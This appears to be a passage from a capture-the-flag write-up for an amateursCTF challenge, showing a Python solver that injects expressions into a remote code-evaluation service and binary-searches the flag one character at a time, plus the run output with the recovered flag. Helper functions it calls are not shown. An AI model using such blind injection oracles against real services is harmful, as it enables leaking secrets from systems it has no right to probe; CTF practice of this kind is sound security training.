 ```py:solver.py
def is_mid(n: int, mid: int) -> bool:
  payload = f"ord(_[{n}])=={mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def b_search(n: int, min: int, max: int) -> int:
  left = min
  right = max
  while left <= right:
      mid = (left + right) // 2
      if is_left(n, min, mid):
          right = mid - 1
          continue
      if is_right(n, mid, max):
          left = mid + 1
          continue
      if is_mid(n, mid):
         return mid
      return -1
  return -1

flag = ""
for i in range(0, 100):
  print(f"i={i}")
  result = b_search(i, 32, 126)
  if result == -1:
     break
  flag += chr(result)
  print(flag)

print(f"flag: {''.join(flag)}")
```

```sh
＄python solver.py
[+] Opening connection to amt.rs on port 31670: Done
i=0
a
i=1
am
i=2
ama
<SNIP>
amateursCTF{i_l0v3_overwr1t1nG_functions..:
i=43
amateursCTF{i_l0v3_overwr1t1nG_functions..:D
i=44
amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
i=45
flag: amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
[*] Closed connection to amt.rs port 3167
```
